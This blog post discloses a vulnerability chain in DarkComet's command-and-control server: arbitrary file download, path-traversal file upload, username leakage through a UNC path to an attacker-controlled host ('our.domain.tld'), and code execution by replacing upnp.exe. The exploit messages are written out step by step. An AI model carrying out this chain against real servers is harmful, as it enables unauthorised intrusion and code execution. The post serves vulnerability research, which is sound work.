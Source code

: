 ```yaml
---
layout: post
title: DarkComet upload vulnerability
---
```


This post will introduce a file upload vulnerability in DarkComet's C&C server. While a flaw that allows an attacker to download files has already been known for many years there is no mention of this very similar vulnerability.
A quick disclaimer before we go into the actual matter: Hacking a C&C server might seem morally justified but it is still illegal. Don't do it.

#Intro

Hacking the hacker has always been a personal interest of mine but only recently I acquired the technical skills to actually execute such an attack. I started the search for a vulnerability a few days ago and found [many](http://samvartaka.github.io/exploitation/2016/06/03/dead-rats-exploiting-malware) [interesting](https://techanarchy.net/2015/11/darkcomet-hacking-the-hacker/) [articles](https://www.nccgroup.trust/globalassets/our-research/us/whitepapers/PEST-CONTROL.pdf) on DarkComet. All of them mention the file download vulnerability we will now look at.
The DarkComet C&C server uses a `QUICKUP` command to download files to the clients. It looks like this (`C` denotes the client and `S` the server):

```
S: QUICKUPC:\some\file.jpg|123|UPLOADEXEC
```

The client then opens a new connection:

```
S: IDTYPE
C: QUICKUP123|C:\some\file.jpg|UPLOADEXEC
S: \x41\x00\x43
C: A
S: <file length>
C: A
S: <raw file data>
```

The C&C server doesn't check whether it ever issued a upload command. This means anyone who connects to the server can download any file. Unfortunately since there is no way to get the server to list all files in a directory this vulnerability is limited to downloading files with a known name. The only interesting files would be `comet.db` which contains a list of all victims and keylog data and `config.ini` which may contain no-ip.org passwords.

While this vulnerability is interesting there is nothing like a remote code execution vulnerability. A logical starting point would be to look into the upload functionality of DarkComet:

#Upload functionality

When the C&C server tries to download a file this is what happens:

```
S: DOWNLOADFILE596|C:\some\file.jpg
```

The client then opens a new connection:

```
S: IDTYPE
C: FILETRANSFER0|596
S: \x41\x00\x43
C: FILEBOFC:\some\file.jpg|0
S: A
C: <raw file data>
```

The server will now write the file into a user specified directory with the filename `file.jpg`. While this might seem trivially exploitable it unfortunately isn't. The `596` in `DOWNLOADFILE596` is the socket handle of the client and the server wouldn't accept `FILETRANSFER0|596` if it didn't already issue a `DOWNLOADFILE` with the same handle.

This leaves us with a pretty useless vulnerability: We can upload arbitrary files in a directory we can't control under the condition that we can guess a socket handle the server already downloaded a file from. Guessing a socket handle isn't really hard (they always seem to be a multiple of four and are usually between 400 and 2300). We will however need to use a trick to get the file into a directory specified by us:

#Path shenanigans

Since we can control the file name in the `FILEBOFC:\some\file.jpg|0` message we can try some path shenanigans. And behold: The server uses `split("\")` to get the file name. This means we can simply change it to `FILEBOFC:\some\../../../Windows/file.jpg|0` and the server will use `../../../Windows/file.jpg` as the file name. The Windows API however won't care and will happily interpret `/` as a path delimiter. Using this trick we can upload the file into any directory on the same drive.

With some more shenanigans we can also get the username of the user running DarkComet: For this we will use UNC paths and the file download vulnerability:

```
QUICKUP123|\\our.domain.tld\test.txt|UPLOADEXEC
```

The C&C server will try to connect to our network share and leak the user and computer name. This information can now be used for our final trick:

#Remote code execution

The DarkComet C&C server will by default try to use UPnP to automatically open ports. It does this by writing a file called `upnp.exe` into the Temp directory and calling it when necessary. To execute our own code we can use the file upload vulnerability with the fact that the server leaks the username when connecting to a network share and upload an executable to `C:\Users\<username>\AppData\Local\Temp\upnp.exe`. The next time the C&C server restarts our code will get executed.


#Conclusion

While not being an easily exploitable vulnerability this could be used against many of the DarkComet C&C servers in the wild. A dedicated attacker could even write a script that acts like a normal client and tries to trick the C&C server into downloading files by conveniently placing `passwords.txt` or `nudes.jpg` on their desktop. This would remove the need to guess a socket handle and make sure that the conditions of the vulnerability are met.
DarkComet and other C&C servers are a cool starting place for beginners searching for vulnerabilites. This is because they are often written by people without any proper security practices, they are network based applications and they can easily be found in the wild.

